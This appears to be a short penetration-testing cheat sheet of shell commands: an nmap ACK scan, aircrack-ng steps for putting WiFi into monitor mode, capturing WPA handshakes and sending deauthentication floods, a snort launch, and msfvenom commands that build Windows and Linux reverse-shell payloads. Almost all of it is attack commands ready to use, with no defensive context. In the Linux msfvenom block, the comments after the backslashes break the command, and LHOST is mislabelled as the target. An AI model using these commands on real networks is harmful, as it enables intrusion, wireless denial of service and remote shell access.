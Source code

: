 
nmap -PN -sA -vv -n -p1-1000 -T4 -oNmapACKScan.txt 117.X.X.X

## WIFI with aireplay
airmon-ng start $iface # monitor mode
airodump-ng $mon
(airodump-ng --bssid xx:xx:xx:xx:xx:xx -c 1-13 [--write WPA_crack_file] <iface>)
aireplay-ng --deauth 100 -a $some_MAC -c $other_MAC $mon"

## start snort [NOT TESTED]
snort -de -i vboxnet0 --daq-dir /usr/lib/daq -c /etc/snort/snort.conf -l /var/log/snort/

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

